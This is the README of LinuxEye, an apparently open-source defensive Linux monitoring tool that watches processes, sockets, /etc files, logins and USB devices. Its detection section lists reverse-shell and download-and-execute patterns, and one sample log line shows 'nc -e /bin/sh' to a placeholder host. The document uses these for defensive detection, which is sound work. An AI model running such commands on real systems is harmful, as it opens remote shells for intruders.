

# 👁️ LinuxEye

[](LICENSE)
[](https://www.python.org/)
[](#)

LinuxEye is a lightweight, real-time security monitor (Endpoint Detection and Response - EDR style) designed for Linux environments. It runs silently in the background, monitoring system activity across processes, network sockets, critical configuration files, USB devices, and authentication logs to detect suspicious behavior and potential security threats.

---

## 🔍 Key Detection Engines

### 1. ⚙️ Process Activity Monitor
Scans running system processes using `psutil` to inspect active commands, flags, and executable paths.
* **Suspicious Commands**: Identifies reverse shells (e.g., `bash -i`, `nc -e`), download-and-execute strings (`curl | sh`), inline scripting execution (`python -c`, `perl -e`), persistence mechanics (`systemctl enable`), base64 obfuscation, and high-impact operations (`rm -rf`, `chmod 777`).
* **Hacking Tools**: Searches process lists for signature executable names like `nmap`, `netcat`, `sqlmap`, `msfconsole`, and `bettercap`.
* **Smart Deduplication**: Avoids log flooding by tracking already alerted processes.

### 2. 🌐 Network Socket Monitor
Tracks active socket connections and maps external IP addresses to targeted local port usage.
* **Port Scan Detection**: Raises a `CRITICAL` alert if a remote host attempts to communicate with more than **2 distinct local ports** within a rolling **3-second window**.

### 3. 📂 Filesystem Monitor
Uses Linux kernel `inotify` events via `inotify_simple` to hook directly into `/etc` directory updates.
* **Target Files**: Actively monitors `/etc/passwd`, `/etc/shadow`, and `/etc/sudoers`.
* **Events**: Logs `CRITICAL` alerts for direct modifications, file deletions, replacements, or atomic saves (from `vim`/`nano`), and `WARNING` for permission or attribute overrides (`flags.ATTRIB`).

### 4. 🔐 Authentication & Login Monitor
Spawns an asynchronous log-stream reader reading directly from `journalctl -f`.
* **Event Scanners**: Detects successful user logins (`INFO`) and wrong password attempts (`WARNING`) across `sudo`, `sshd`, and PAM sessions.
* **Brute-Force Detection**: Implements a sliding window queue. If login failures for a specific username cross the configured threshold (e.g., 3 failures within 60 seconds), it raises a `CRITICAL` brute-force alarm.

### 5. 🔌 USB Device Monitor
Listens to Linux kernel netlink udev events using `pyudev` for connected hardware.
* **Events**: Logs a `WARNING` alert when a new USB storage/hardware device is plugged in, and `INFO` when disconnected.

---

## 🏗️ Architecture



---

## 🛠️ Project Structure

```text
linux-eye/
├── config/
│   └── config.yaml             # Core YAML configuration file
├── linux_eye/
│   ├── __init__.py
│   ├── main.py                 # Multi-threaded runner entry point & CLI
│   ├── monitors/
│   │   ├── __init__.py
│   │   ├── file_monitor.py     # Filesystem inotify event handler
│   │   ├── login_monitor.py    # Log/journal stream & brute-force engine
│   │   ├── network_monitor.py  # Socket connections port-scanner detector
│   │   ├── process_monitor.py  # Signature/heuristics process scanner
│   │   └── usb_monitor.py      # Kernel udev USB device monitor
│   └── utils/
│       ├── __init__.py
│       ├── config.py           # Configuration parser
│       └── logger.py           # Structured JSON Lines log-writer
├── logs/
│   └── linux-eye.log           # Generated structured audit logs (JSONL)
├── packaging/
│   ├── build_deb.sh            # Debian package builder
│   ├── build_deb.py            # Cross-platform .deb assembler
│   └── PKGBUILD                # Arch Linux AUR package build file
├── systemd/
│   └── linux-eye.service       # Systemd daemon service unit
├── install.sh                  # 1-command installer script
├── uninstall.sh                # 1-command uninstaller script
├── pyproject.toml              # Python package metadata & CLI entry point
├── requirements.txt            # Python dependencies
└── README.md
```

---

## 🚀 Installation & Quickstart

### Method 1: ⚡ 1-Command Automated Installer (Recommended)

Clone the repo and run the automated installer. It sets up the virtual environment, installs dependencies, registers the `linux-eye` CLI command, and starts the `systemd` daemon:

```bash
git clone https://github.com/amitpadhan525/linux-eye.git
cd linux-eye
sudo ./install.sh
```

To remove later:
```bash
sudo ./uninstall.sh
```

---

### Method 2: 📦 Debian / Ubuntu (`.deb`) Package

Download the `.deb` package from [GitHub Releases](https://github.com/amitpadhan525/linux-eye/releases) or build it locally:

```bash
# Build locally
./packaging/build_deb.sh

# Install with apt
sudo apt install ./dist/linux-eye_1.0.0_all.deb
```

---

### Method 3: 🏹 Arch Linux (AUR)

If you are using Arch Linux, install with your favorite AUR helper:

```bash
yay -S linux-eye-git
```

---

### Method 4: 🐍 Manual Setup

```bash
# 1. Clone repo
git clone https://github.com/amitpadhan525/linux-eye.git
cd linux-eye

# 2. Set up virtual environment
python3 -m venv .venv
source .venv/bin/activate
pip install -r requirements.txt

# 3. Run directly
sudo .venv/bin/python -m linux_eye.main
```

---

## ⚙️ Configuration

Settings can be customized in [`config/config.yaml`](config/config.yaml):

```yaml
general:
  tool_name: LinuxEye
  log_dir: logs
  log_file: linux-eye.log
  refresh_interval: 5        # Scan interval in seconds for processes/network

login_monitor:
  window_seconds: 60         # Rolling window (seconds) for brute-force tracking
  threshold: 3               # Limit of login failures before generating an alert

network_monitor:
  window_seconds: 3          # Port scan detection time window
  port_threshold: 2          # Max distinct ports from same IP before alerting

file_monitor:
  watch_dir: /etc
  critical_files:
    - passwd
    - shadow
    - sudoers
```

---

## 💻 Service Management

When installed as a daemon:

```bash
# Check service status
sudo systemctl status linux-eye

# Follow real-time daemon logs
sudo journalctl -u linux-eye -f

# Restart or Stop service
sudo systemctl restart linux-eye
sudo systemctl stop linux-eye
```

---

## 📝 Structured Audit Logs

All events are formatted as single-line JSON entries (JSONL) written to `logs/linux-eye.log`.

### Log Levels
* `INFO` - Standard system behaviors (e.g., successful user logins, USB disconnected).
* `WARNING` - Unusual or potentially unsanctioned behavior (e.g., file permissions changed, wrong password attempts, USB inserted).
* `CRITICAL` - Malicious process commands, active port scans, deletions/modifications of critical files, or SSH/sudo brute-force alarms.

### Sample Entries
```json
{"timestamp": "2026-08-30T22:15:30.123456", "severity": "INFO", "message": "Login successful for user 'amit'", "source": "login_monitor", "details": "pam_unix(sudo:session): session opened for user root"}
{"timestamp": "2026-08-30T22:16:02.789012", "severity": "WARNING", "message": "Critical system file permissions/attributes changed: passwd", "source": "file_monitor", "details": {"filename": "passwd", "path": "/etc/passwd", "event_type": "ATTRIB_CHANGED"}}
{"timestamp": "2026-08-30T22:16:45.456789", "severity": "CRITICAL", "message": "Possible brute-force attack detected on user 'admin'", "source": "login_monitor", "details": {"username": "admin", "failure_count": 3, "window_seconds": 60, "threshold": 3}}
{"timestamp": "2026-08-30T22:17:10.987654", "severity": "CRITICAL", "message": "Possible port scan detected", "source": "network_monitor", "details": {"remote_ip": "192.168.1.102", "targeted_local_ports": [22, 80, 443], "window_seconds": 3}}
{"timestamp": "2026-08-30T22:18:05.112233", "severity": "CRITICAL", "message": "Suspicious command detected: nc -e /bin/sh 1.2.3.4", "source": "process_monitor", "details": {"pid": 25482, "name": "nc", "username": "attacker", "cmdline": ["nc", "-e", "/bin/sh", "1.2.3.4"], "exe": "/usr/bin/nc"}}
{"timestamp": "2026-08-30T22:19:12.334455", "severity": "WARNING", "message": "USB device connected: SanDisk - Ultra", "source": "usb_monitor", "details": {"action": "add", "vendor": "SanDisk", "model": "Ultra", "serial": "4C531001", "node": "/dev/bus/usb/001/004"}}
```

---

## 📄 License
This project is licensed under the [MIT License](LICENSE).
